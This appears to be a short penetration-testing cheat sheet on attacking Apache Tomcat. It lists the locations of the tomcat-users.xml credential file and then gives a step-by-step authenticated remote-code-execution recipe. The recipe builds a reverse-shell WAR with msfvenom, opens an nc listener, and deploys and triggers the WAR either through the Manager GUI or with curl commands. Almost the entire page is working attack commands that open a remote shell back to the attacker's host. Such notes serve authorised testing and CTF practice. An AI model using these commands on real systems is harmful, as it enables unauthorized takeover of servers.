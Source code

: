 ```yaml
---
title: "Apache Tomcat"
date: 2024-7-2
tags: ["Web Exploitation", "Tomcat", "Apache", "Web Server", "War", "Java", "RCE"]
---
```


### Config Location

```console
/usr/share/tomcat9/etc/tomcat-users.xml
```

```console
/etc/tomcat9/tomcat-users.xml
```

---

### RCE (Authenicated)

#### 1. Create a WAR file

```console
msfvenom -p java/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f war -o revshell.war
```

#### 2. Start a listener

```console
rlwrap nc -lvnp <LOCAL_PORT>
```

{{< tab set1 tab1 active >}}3a. Manager GUI{{< /tab >}}
{{< tab set1 tab2 >}}3b. Manager Script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
+--------------------------------------------+
| Exploit                                    |
+--------------------------------------------+
| 1. Login to Tomcat Web Application Manager |
| 2. WAR file to deploy -> Deploy            |
| 3. Click /revshell in Applications table   |
+--------------------------------------------+
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
curl -u '<USER>:<PASSWORD>' http://<DOMAIN>:8080/manager/text/deploy?path=/revshell --upload-file revshell.war
```

```console
curl -s http://<DOMAIN>:8080/revshell
```

{{< /tabcontent >}}

<br>
